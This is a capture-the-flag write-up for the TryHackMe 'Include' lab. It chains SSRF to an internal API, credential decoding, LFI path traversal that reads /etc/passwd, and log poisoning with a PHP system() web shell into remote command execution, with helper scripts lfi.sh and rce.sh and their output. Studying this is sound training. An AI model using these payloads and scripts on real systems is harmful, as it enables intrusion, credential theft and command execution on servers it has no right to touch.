








| Category          | Details                                       |
|-------------------|-----------------------------------------------|
| 📝 **Name**       | [Include](https://tryhackme.com/room/include) |  
| 🏷 **Type**       | THM Challenge                                 |
| 🖥 **OS**         | Linux                                         |
| 🎯 **Difficulty** | Medium                                        |
| 📁 **Tags**       | SSRF, LFI, Log poisoning, RCE                 |

## Task 1: Include

### What is the flag value after logging in to the SysMon app?

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/THM Include]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-16 08:48 CET
Nmap scan report for 10.82.154.147
Host is up (0.042s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9b:c3:2d:70:a3:93:e2:9b:58:36:1b:55:79:6e:b2:e5 (RSA)
|   256 a8:49:29:90:b6:c7:5b:ff:08:42:2d:5e:2b:3d:f2:ee (ECDSA)
|_  256 00:19:52:30:b4:65:12:84:96:ea:a0:19:62:a6:ea:01 (ED25519)
25/tcp    open  smtp     Postfix smtpd
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: mail.filepath.lab, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
| ssl-cert: Subject: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Subject Alternative Name: DNS:ip-10-10-31-82.eu-west-1.compute.internal
| Not valid before: 2021-11-10T16:53:34
|_Not valid after:  2031-11-08T16:53:34
110/tcp   open  pop3     Dovecot pop3d
|_pop3-capabilities: PIPELINING SASL STLS UIDL AUTH-RESP-CODE TOP CAPA RESP-CODES
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Subject Alternative Name: DNS:ip-10-10-31-82.eu-west-1.compute.internal
| Not valid before: 2021-11-10T16:53:34
|_Not valid after:  2031-11-08T16:53:34
143/tcp   open  imap     Dovecot imapd (Ubuntu)
|_imap-capabilities: ENABLE LITERAL+ STARTTLS ID more have listed post-login SASL-IR capabilities Pre-login OK IMAP4rev1 LOGINDISABLEDA0001 LOGIN-REFERRALS IDLE
| ssl-cert: Subject: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Subject Alternative Name: DNS:ip-10-10-31-82.eu-west-1.compute.internal
| Not valid before: 2021-11-10T16:53:34
|_Not valid after:  2031-11-08T16:53:34
|_ssl-date: TLS randomness does not represent time
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: AUTH=PLAIN LITERAL+ OK ID more have listed LOGIN-REFERRALS SASL-IR capabilities Pre-login ENABLE IMAP4rev1 post-login AUTH=LOGINA0001 IDLE
| ssl-cert: Subject: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Subject Alternative Name: DNS:ip-10-10-31-82.eu-west-1.compute.internal
| Not valid before: 2021-11-10T16:53:34
|_Not valid after:  2031-11-08T16:53:34
995/tcp   open  ssl/pop3 Dovecot pop3d
| ssl-cert: Subject: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Subject Alternative Name: DNS:ip-10-10-31-82.eu-west-1.compute.internal
| Not valid before: 2021-11-10T16:53:34
|_Not valid after:  2031-11-08T16:53:34
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: PIPELINING SASL(PLAIN LOGIN) TOP UIDL AUTH-RESP-CODE USER CAPA RESP-CODES
4000/tcp  open  http     Node.js (Express middleware)
|_http-title: Sign In
50000/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: System Monitoring Portal
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host:  mail.filepath.lab; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.27 seconds
```

#### Identify `SysMon` application is running at port 50000

Web enumeration does not yield any results thus we will switch to application running at port 4000.

#### Login to `ReviewApp` running at port 4000 using `guest:guest` credentials


#### Add test activity

We can see that we can change user object with 'Recommend an activity' feature. We could try to overwrite `isAdmin` flag with it.

#### Overwrite `isAdmin` flag with 'Recommend an activity' feature


After overwriting flag we can see that admin panel has appeared.



#### Discover internal API


#### Access internal API using SSRF vulnerability in `Settings` panel


Use `Update Banner Image URL` form to send request to internal API



#### Decode base64 output to discover credentials
```
┌──(magicrc㉿perun)-[~/attack/THM Include]
└─$ echo eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0 | base64 -d
{"ReviewAppUsername":"admin","ReviewAppPassword":"admin@!!!","SysMonAppUsername":"administrator","SysMonAppPassword":"S$9$qk6d#**LQU"} 
```

#### Use discovered credentials to access `SysMon` application
```
┌──(magicrc㉿perun)-[~/attack/THM Include]
└─$ curl -v -c cookies.txt http://$TARGET:50000/login.php -d 'username=administrator&password=S$9$qk6d#**LQU'
*   Trying 10.81.141.199:50000...
* Connected to 10.81.141.199 (10.81.141.199) port 50000
* using HTTP/1.x
> POST /login.php HTTP/1.1
> Host: 10.81.141.199:50000
> User-Agent: curl/8.15.0
> Accept: */*
> Content-Length: 46
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 46 bytes
< HTTP/1.1 302 Found
< Date: Thu, 18 Dec 2025 14:14:59 GMT
< Server: Apache/2.4.41 (Ubuntu)
* Added cookie PHPSESSID="44g9ei6plt8hucpkbchhm8oli3" for domain 10.81.141.199, path /, expire 0
< Set-Cookie: PHPSESSID=44g9ei6plt8hucpkbchhm8oli3; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Location: dashboard.php
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 10.81.141.199 left intact
```

#### Capture 1st flag
```
┌──(magicrc㉿perun)-[~/attack/THM Include]
└─$ curl -s -b cookies.txt http://$TARGET:50000/dashboard.php | grep -oP 'THM{.*}'
THM{!50_55Rf_1S_d_k3Y??!}
```

### What is the content of the hidden text file in /var/www/html?

#### Enumerate `SysMon` application
```
┌──(magicrc㉿perun)-[~/attack/THM Include]
└─$ curl -s -b cookies.txt http://$TARGET:50000/dashboard.php
<SNIP>

<SNIP>
```

We can see that `profile.php` accepts file (`profile.png`) in `img` HTTP GET param. We could enumerate it to see if it's vulnerable to LFI. 

```
┌──(magicrc㉿perun)-[~/attack/THM Include]
└─$ ffuf -r -u "http://$TARGET:50000/profile.php?img=FUZZ" -w ~/Tools/LFI/payloads.txt -H "Cookie: PHPSESSID=5at80ifqo6f8dtgci3pvbpv5q7" -fs 0
<SNIP>
......///......///......///......///......///etc///issue [Status: 200, Size: 26, Words: 5, Lines: 3, Duration: 41ms]
......///......///......///......///etc///passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 41ms]
......///......///......///......///etc///issue [Status: 200, Size: 26, Words: 5, Lines: 3, Duration: 42ms]
......///......///......///......///......///etc///passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 45ms]
<SNIP>
```

#### Confirm LFI vulnerability
```
┌──(magicrc㉿perun)-[~/attack/THM Include]
└─$ curl -b cookies.txt "http://$TARGET:50000/profile.php?img=......///......///......///......///......///etc///passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tryhackme:x:1001:1001:,,,:/home/tryhackme:/bin/bash
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
postfix:x:114:121::/var/spool/postfix:/usr/sbin/nologin
dovecot:x:115:123:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin
dovenull:x:116:124:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin
joshua:x:1002:1002:,,,:/home/joshua:/bin/bash
charles:x:1003:1003:,,,:/home/charles:/bin/bash
```

#### Prepare LFI exploit
```
┌──(magicrc㉿perun)-[~/attack/THM Include]
└─$ { cat <<'EOF'> lfi.sh                                               
curl -s -b cookies.txt "http://$TARGET:50000/profile.php?img=......///......///......///......///......//$1"
EOF
} && chmod +x lfi.sh
```

#### Use LFI exploit with `procbuster` to enumerate processes running on target
```
┌──(magicrc㉿perun)-[~/attack/THM Include]
└─$ ~/Tools/procbuster/procbuster.sh --file-read-cmd ./lfi.sh
PID     USER                 CMD
<SNIP>
615     ubuntu               /bin/sh -c /bin/bash -l -c '/home/ubuntu/run_npm_start_both.sh' > /home/ubuntu/npm_log.txt 2>&1 
<SNIP>
2035    ubuntu               sh -c node app.js 
<SNIP>
2043    ubuntu               sh -c node external-server.js
<SNIP> 
```
We can see that `node.js` applications started with `run_npm_start_both.sh` are loging to `/home/ubuntu/npm_log.txt`.

#### Check content of `/home/ubuntu/npm_log.txt`
```
┌──(magicrc㉿perun)-[~/attack/THM Include]
└─$ ./lfi.sh /home/ubuntu/npm_log.txt

> Challenge@1.0.0 start-both
> concurrently "npm run start" "npm run start-internal"

[1] 
[1] > Challenge@1.0.0 start-internal
[1] > node external-server.js
[1] 
[0] 
[0] > Challenge@1.0.0 start
[0] > node app.js
[0] 
[1] Server exclusively running on http://localhost:5000
[0] Server is running on port 4000
[0] Session user: {
[0]   id: 1,
[0]   name: 'guest',
[0]   age: 25,
[0]   country: 'UK',
[0]   albums: [ { name: 'USA Trip', photos: 'www.thm.me' } ],
[0]   password: 'guest',
[0]   isAdmin: false,
[0]   profileImage: '/images/prof1.avif'
[0] }
```
We can see that `user` structure is logged to `npm_log.txt`. As we have ability to control this structure with 'Recommend an activity' feature in `ReviewApp` we could poison log with PHP code and see if it will be executed.

#### Poison `/home/ubuntu/npm_log.txt` with PHP code
```
┌──(magicrc㉿perun)-[~/attack/THM Include]
└─$ curl -s -c review_app_cookies.txt http://$TARGET:4000/signin -d 'name=guest&password=guest' -o /dev/null && \
curl -s -b review_app_cookies.txt http://$TARGET:4000/recommend-activity/1 -d "activityType=poison&activityName=<?php system(\$_REQUEST[\"cmd\"]); ?>" -o /dev/null
```

#### Confirm LFI2RCE with log poisoning 
```
┌──(magicrc㉿perun)-[~/attack/THM Include]
└─$ ./lfi.sh '/home/ubuntu/npm_log.txt&cmd=id' | grep poison | cut -c16-
uid=33(www-data) gid=33(www-data) groups=33(www-data),4(adm),27(sudo)
```

#### Prepare LFI2RCE exploit
```
┌──(magicrc㉿perun)-[~/attack/THM Include]
└─$ { cat <<'EOF'> rce.sh
CMD=$(echo $1 | jq -sRr @uri)
./lfi.sh "/home/ubuntu/npm_log.txt&cmd=$CMD" | sed -n "/^\[0\][[:space:]]*poison: '/,/^\[0\] }/ {
  s/^\[0\][[:space:]]*poison: '//;
  s/'$//;
  /^\[0\] }/d;
  p
}"
EOF
} && chmod +x rce.sh
```

#### List files in `/var/www/html`
```
┌──(magicrc㉿perun)-[~/attack/THM Include]
└─$ ./rce.sh 'ls -la /var/www/html'
drwxr-xr-x 4 ubuntu ubuntu 4096 Mar 12  2024 .
drwxr-xr-x 3 root   root   4096 Nov 10  2021 ..
-rw-rw-r-- 1 ubuntu ubuntu  351 Feb 21  2024 .htaccess
-rw-rw-r-- 1 ubuntu ubuntu   38 Feb 22  2024 505eb0fb8a9f32853b4d955e1f9123ea.txt
-rw-rw-r-- 1 ubuntu ubuntu  257 Feb 23  2023 api.php
-rw-rw-r-- 1 ubuntu ubuntu  932 Feb 26  2024 auth.php
-rw-rw-r-- 1 ubuntu ubuntu 3504 Feb 21  2024 dashboard.php
-rw-rw-r-- 1 ubuntu ubuntu  429 Feb 21  2024 index.php
-rw-rw-r-- 1 ubuntu ubuntu 1000 Feb 20  2024 login.php
-rw-rw-r-- 1 ubuntu ubuntu   81 Nov  5  2023 logout.php
-rw-rw-r-- 1 ubuntu ubuntu  444 Mar 12  2024 profile.php
drwxrwxr-x 2 ubuntu ubuntu 4096 Mar 12  2024 templates
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 20  2024 uploads
```

#### Capture 2nd flag
```
┌──(magicrc㉿perun)-[~/attack/THM Include]
└─$ ./rce.sh 'cat /var/www/html/505eb0fb8a9f32853b4d955e1f9123ea.txt'
THM{505eb0fb8a9f32853b4d955e1f9123ea}
```
